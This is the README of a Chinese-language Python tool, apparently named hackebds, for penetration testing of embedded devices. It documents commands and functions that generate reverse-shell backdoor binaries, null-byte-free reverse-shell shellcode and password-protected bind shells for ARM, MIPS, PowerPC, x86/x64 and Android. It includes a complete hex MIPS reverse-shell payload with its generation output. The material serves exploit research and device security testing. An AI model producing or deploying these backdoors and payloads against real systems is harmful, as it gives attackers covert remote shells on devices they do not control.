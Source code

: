 # hackebds
![PyPI - Downloads](https://img.shields.io/pypi/dm/hackebds)![PyPI - Wheel](https://img.shields.io/pypi/wheel/hackebds)![PyPI - Python Version](https://img.shields.io/pypi/pyversions/pwntools)


>在嵌入式设备的渗透和漏洞挖掘过程中，遇到了许多问题。一个是一些设备没有telnetd或ssh服务来获得交互式shell，一些设备被防火墙保护，无法与其正向连接需要reverse_shell，另一个是内存损坏漏洞（如堆栈溢出）通常是空字节截断，因此构造反向shell代码更麻烦，因此开发此工具是为了利用该漏洞。该工具基于PWN模块开发，目前使用python2语言， 语言已更新到python3，在python3下使用即可

### 功能

该工具嵌入到设备的安全测试中。有两个主要功能：
1. 生成各种架构的**后门程序**。后门程序是用反向shell汇编代码打包的，大小很小，且纯静态封，装**现在支持Armv5、Armv7、Armv8、mipsel和mips，mips64，mips64el，powerpc仍在更新中，powerpc64**
2. 在攻击过程中生成各种架构的**反向shell代码**，且无空字节，这有助于攻击嵌入式设备上的内存损坏漏洞**现在支持Armv5、Armv7、Armv8、mipsel和mips，mipsel64，aarch64，riscv64，仍在更新中**
3. 修复了reverse_shellcode和reverse_backdoor**端口选择过大**的一些错误，**在x86和x64**、**下增加了使用指定端口和密码生成bindshell的功能，并美化了生成过程****（此功能将更新到各种架构）**
4. 支持命令行生成后门和外壳代码，特点是轻便、小巧、高效、快速
5. 在利用过程中生成各种架构的reverse_shell shellcode，并且没有空字节，这有助于利用嵌入式设备上的内存损坏漏洞。Armv5、Armv7、Armv8、mipsel、mips、mips64、mips64el、powerpc、powerpc64现在支持，它们仍在更新中

6. 修复了reverse_shellcode和reverse_backdoor端口选择太大的一些错误，并在x86和x64下添加了生成具有指定端口和密码的绑定壳的功能，并美化了生成过程**（此功能将更新到各种架构）**添加支持armvelv7_bind_shell（2022.10.27），

7. 删除了shellcode的生成睡眠时间，并添加了mips_ bind_ Shell，x86和x64 small end_ shell_ Backdoor的反向，预计将被mips_ bind_ Shell中断的mips，解决了mips中绑定shell中的密码逻辑处理错误，加入aarch64_ bind_shell

8. 支持命令行生成后门和外壳代码，具有很强的反狩猎能力，以轻巧、小、高效和快速为特征

9. 添加了设备模型的学习功能。建立模型和拱门之间的关系后，再次生成目标内容。您只需要指定模型

10.添加CVE检索功能，并备份CVE检索

11.改进了x86、x64、armebv5、reverse_ shellcode和reverse_ shell_文件



### 安装
安装模块
**pip install hackebds**

```
pip install -U hackebds
```
### 安装问题
出现python如下图问题请安装对应的binutils环境
![image-20221107231221043](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221107231221043.png)
#### 第一步

如果出现如下的错误

![image-20221118202002242](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221118202002242.png)

请使用如下命令解决
```
apt search binutils | grep arm(这里的arm可以更换需要的对应架构)
apt install binutils-arm-linux-gnueabi/hirsute
```
### 怎么使用
这里的ip地址与端口都是shell弹回的地址与port，导入此模块后pwn模块也会直接导入，无需再次导入
#### 1. 生成对应各种架构的后门程序，纯shellcode封装，回连shell成功概率大
32为程序bind_shell中密码最多4个字符，64位程序最多8个字符
使用命令行生成后门文件名、shell代码、binshell等
 ![image-20221107231221043](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221107231221043.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode -passwd 1231
   ```

   ![image-20221102181217933](https://img-blog.csdnimg.cn/img_convert/8571f33df56a35983e368c777141ad54.png)
   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file
   ```
   ![image-20221102183017775](https://img-blog.csdnimg.cn/img_convert/660574b30d7ae810cc7b0d96a3a60bd2.png)

   ```
   hackebds -reverse_ip 0.0.0.0 -reverse_port 8081 -arch armelv7 -res bind_shell -passwd 1231
   ```
   ![image-20221102182939434](https://img-blog.csdnimg.cn/img_convert/05ebc0b42efcb42f58eef4815b3b08dc.png)


```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
>>> x86el_backdoor(reverse_ip,reverse_port)
>>> x64el_backdoor(reverse_ip, reverse_port)
>>> powerpc_backdoor(reverse_ip, reverse_port)
>>> powerpcle_backdoor(reverse_ip, reverse_port)
>>> powerpc64_backdoor(reverse_ip, reverse_port)
>>> powerpc64le_backdoor(reverse_ip, reverse_port)
>>> x86_bind_shell(listen_port, passwd)
>>> x64_bind_shell(listen_port, passwd)
>>> armelv7_bind_shell(listen_port, passwd)
>>> aarch64_ bind_ shell(listen_port, passwd)
>>> mips_bind_shell(listen_port, passwd)
>>> mipsel_bind_shell(listen_port, passwd)
```
列如:
```
>>> mipsel_backdoor("127.0.0.1",5566)
mipsel_backdoor is ok in current path ./
>>> 
```
![image-20221026181947194](https://img-blog.csdnimg.cn/img_convert/ad35bd8fc68cb44da974d7e28ac0cfe9.png)
```
>>> from hackebds import *
>>> x64_bind_shell(13000,"1235")
[+] bind port is set to 13000
[+] passwd is set to '1235'
[*] waiting 3s
[+] x64_bind_shell is ok in current path ./
```
![image-20221026182024685](https://img-blog.csdnimg.cn/img_convert/6d3d5e15bbaac7a91e98d290aa88c074.png)
#### 2. 生成对应各种架构的利用回连shellcode(no free无空字节
```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> android_aarch64_backdoor(reverse_ip,reverse_port)
>>> x86el_reverse_sl(reverse_ip,reverse_port)
>>> x64el_reverse_sl(reverse_ip,reverse_port)
>>> ppc_reverse_sl(reverse_ip,reverse_port)
>>> ppcle_reverse_sl(reverse_ip,reverse_port)
>>> ppc64_reverse_sl(reverse_ip,reverse_port)
>>> ppc64le_reverse_sl(reverse_ip,reverse_port)
```
列如:
```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```
## 更新 
> 	2022.4.29 在hackebds-0.0.5中加入了对aarch64无空字节reverse_shellcode的支持
>
> 	2022.5.1  更新在引入模块后可以直接调用，减少代码量,更改对python3的支持
> 	
> 	2022.5.5  0.0.8版本解决了mips_reverse_sl与mipsel_reverse_sl反弹不了shell的bug加入了mips64大小端的后门与reverse_shell功能
> 	
> 	2022.5.21 0.0.9版本更改了armelv5后门生成的方式，加入了riscv-v64的后门指定生成
> 	
> 	2022.6.27 0.1.0 加入了安卓手机后门的生成
> 	
> 	2022.10.26 0.1.5修复了一些问题，并添加了一些bindshell指定端口密码的自动生成功能
> 	
> 	2022.11.2 0.2.0 支持命令行生成后门和外壳代码，特点是轻便、小巧、高效、快速
> 	
> 	2022.11.2 0.20 删除了shellcode的生成睡眠时间，并添加了mips_bind_Shell，与x86和x64小端Shell_Backdoor相反，这些mips预计会被mips_biind_Shelll中断，这解决了mips中bindshell中密码逻辑处理的错误问题
>
> 	2022.11.8 0.2.2 完善了后门，shellcode，bin_shell的生成修复了一些小错误，增加了学习模块指定型号即可生成对应内容。
>

## ​:beer:​ 享受hacking
